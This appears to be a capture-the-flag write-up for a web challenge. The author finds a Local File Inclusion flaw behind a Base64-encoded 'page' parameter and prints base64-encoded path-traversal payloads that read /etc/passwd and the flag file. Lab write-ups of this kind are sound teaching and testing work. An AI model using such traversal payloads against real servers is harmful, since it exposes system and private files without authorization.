





# ACAB

- Author: rootkids
- http://minictf.ucs.or.id:1312

```
ACAB!!!!!!!!!! this shit is going crazyyy!!
```



Try navigating to another page:



See the URL?

```
http://minictf.ucs.or.id:1312/?page=YWJvdXQucGhw
```

The page path is encoded in Base64.

```
$ echo "YWJvdXQucGhw" | base64 -d
about.php
```

What if we specify a custom path?

```
$ echo "omaga" | base64
b21hZ2EK
```



Ohh... nice! A Local File Inclusion (LFI) vulnerability.

Try catting passwd?

```
$ printf "../../../../etc/passwd" | base64
Li4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```



What if...

```
$ printf "../../../../flag.txt" | base64
Li4vLi4vLi4vLi4vZmxhZy50eHQ=
```



Flag:

```
UCS{ACAB!!!_pr4y_f0r_0ur_c0untry_Th1s_sH1t_Happened_1s_G0ing_Crazy!!}
```

Btw, #ACAB.
